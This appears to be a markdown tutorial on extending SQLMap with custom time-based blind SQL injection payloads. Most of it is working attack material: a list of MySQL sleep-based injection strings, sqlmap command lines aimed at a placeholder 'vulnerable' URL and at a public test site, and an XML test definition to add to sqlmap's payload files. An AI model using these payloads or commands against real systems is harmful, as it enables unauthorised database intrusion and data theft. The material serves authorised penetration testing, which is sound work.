 
# SQLMap Custom Payload Guide

SQLmap is a powerful tool, and customizing it with your own payloads can enhance your penetration testing efforts. This guide will walk you through creating custom payloads and using them effectively.

## Step 1: Create a Custom Payload File

First, compile all your desired payloads into a file named `custom_payloads.txt`. Below is an example of the file content:

### `custom_payloads.txt`
```sql
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z
if(now()=sysdate(),sleep(3),0)/*'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"*/
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/
if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/
if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/
if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/
Hurlburt'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'XOR(if(now()=sysdate(),sleep(5*5),0))OR' -- -useragent
'+(select*from(select(sleep(7*7)))a)+'
'+(select*from(select(sleep(20)))a)+'
'+(select*from(select(sleep(20+10)))a)+'
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR
XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR
```

## Step 2: Use SQLMap with Custom Payloads

Run SQLmap using the following command to test your custom payloads:

```bash
sqlmap -u "http://targetsite.com/vulnerable_page.php?id=1" --dbms=mysql --technique=T --load-payloads=custom_payloads.txt --time-sec=10 --headers="Referer: http://www.google.com/search?hl=en&q=*"
```

### Explanation of Parameters

- **--load-payloads=custom_payloads.txt**: Specifies the custom payload file.
- **--time-sec=10**: Sets SQLmap's wait time to 10 seconds.
- **--headers**: Defines headers for the injection test (e.g., `Referer`).

## Step 3: Review the Results

Observe SQLmap's output to identify which payloads succeeded and assess their effectiveness based on the response times.

---

## Advanced Customization

### Locating SQLMap's Configuration Files

SQLMap uses XML files to define payloads. These files might be located in different directories depending on your operating system and installation method.

#### Common Paths

- **Source Installation**: `sqlmap/data/xml/payloads/`
- **Pip Installation**: `~/.local/lib/python3.x/site-packages/sqlmap/`
- **Package Manager**: `/usr/share/sqlmap/data/xml/payloads/`

Use the `find` command to locate specific files, such as `time_blind.xml`:

```bash
find / -name time_blind.xml -type f 2>/dev/null
```

### Building Custom Payloads in XML

To add a new test case, edit the appropriate XML file, such as `time_blind.xml`. Here's an example:

```xml
<test>
    <title>XOR time-based blind (query SLEEP)</title>
    <stype>5</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3,8,9</clause>
    <where>1</where>
    <vector>[RANDNUM]'XOR(if(now()=sysdate(),sleep([SLEEPTIME]),0))XOR'[RANDSTR]</vector>
    <request>
        <payload>[RANDNUM]'XOR(if(now()=sysdate(),sleep([SLEEPTIME]),0))XOR'[RANDSTR]</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
</test>
```

### Running Your Custom Query

Use the following command to execute your custom payload:

```bash
sqlmap -u 'http://testphp.vulnweb.com/listproducts.php?cat=1' --technique=T
```

### Additional Tips

- Add `--proxy=http://127.0.0.1:8080` to inspect requests using a proxy tool.
- Experiment with different risk and level settings for comprehensive testing.

---

## Conclusion

With this guide, you can leverage SQLMap's customization features to perform advanced SQL injection testing tailored to your needs. Explore further options and share your findings to contribute to the security community.
